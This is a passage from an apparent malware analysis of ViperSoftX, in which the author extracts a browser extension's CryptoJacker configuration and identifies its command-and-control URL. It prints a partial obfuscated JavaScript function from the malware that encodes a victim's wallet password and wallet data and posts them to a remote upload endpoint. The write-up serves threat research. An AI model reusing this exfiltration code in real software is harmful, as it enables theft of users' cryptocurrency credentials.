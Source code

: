 After studying the JavaScript injected I used the chrome developer tools to interact with the browser extension JavaScript runtime and extract the CryptoJacker configuration.

![Config](/assets/img/ViperSoftX/config.png)

During my analysis I identified a command and control URL leveraged during the actions on objective stage of the infection:
```
function _0xd8afac(_0x33828d, _0x3eb13c) {
     const _0x593a1e = _0x285dc9;
     let _0x2ceb5e = _0x593a1e(0x1eb);
     _0x2ceb5e += '\x0d\x0a',
     _0x2ceb5e += '\x0d\x0a',
     _0x2ceb5e += btoa(JSON['stringify']({
         'password': _0x33828d,
         'wallet': _0x3eb13c
     }));
     const _0x5a5263 = {
         'uri': 'https://st' + _0x593a1e(0x1e2) + '0.com/uplo' + _0x593a1e(0x1f2),
         'options': {
             'method': _0x593a1e(0x1f8),
             'mode': 'cors',
             'credentials': _0x593a1e(0x1d2),
             'body': _0x2ceb5e
         }
     };
     if (_0x55fc79)
         console[_0x593a1e(0x1dd)](_0x5a5263);
     window[_0x593a1e(0x1df) + _0x593a1e(0x1dc)](new MessageEvent('b8b0becb-0' + _0x593a1e(0x207) + '688-e3671f' + _0x593a1e(0x1c7),{
         'data': _0x5a5263
     }));
 }
```
*Note: This is a partial code snippet*
